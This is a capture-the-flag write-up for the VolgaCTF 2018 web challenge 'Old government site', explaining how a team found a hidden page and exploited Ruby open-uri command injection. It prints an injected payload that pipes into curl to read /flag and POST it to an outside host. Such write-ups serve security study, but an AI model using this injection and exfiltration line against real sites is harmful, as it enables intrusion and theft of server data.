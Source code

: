 # VolgaCTF Quals 2018 : Old government site

**Team:** NOPS
**Category:** Web
**Points:** 150
**Description:**  
It's an old government web-site. Please, don't touch it. It works properly.

## Write-up

After connecting to the website, you have access to some links, no forms. Nevertheless we saw that pages are fetched with an id: `http://old-government-site.quals.2018.volgactf.ru:8080/page?id=33`

We run a script to see if there were some hidden pages and found one with the id: `id=18`

It asks us to enter a website.
If you enter a correct website like http://google.com you have a string showing `validated` whereas is you only put google.com, it show `error`.

When you enter a correct website, the server does a GET request on it.

So we played a bit with this field and found out that `/etc` is a correct website. We then tried with the linux filesystem `/var` and some linux commands `/bin/ls` etc and finally, we tried `/flag`. It worked. Nice, maybe it's where the flag is, but can we access it ?

Up to now, we know that the script behind is executing the command we give or send a GET request on the url.

We also know that the framework used for the website is Sinatra. if you request an unknow web page, it gives you an error.
Sinatra is in ruby.

So we have to find a function in ruby that could open a file or a URL.

We found open-uri and the vulnerabilities related to it: [sakurity.com](https://sakurity.com/blog/2015/02/28/openuri.html)

Let's try a `| ls` : it's validated. We've got a command injection. Let's craft our command so it can read the /flag file and send it to a serveur: `|curl -d "$(cat /flag)" -X POST http://ptsv2.com/t/3awt7-1521988385/post` (we use ptsv2 website to inspect the content of the HTTP requests)

Bingo ! We've got out flag ! 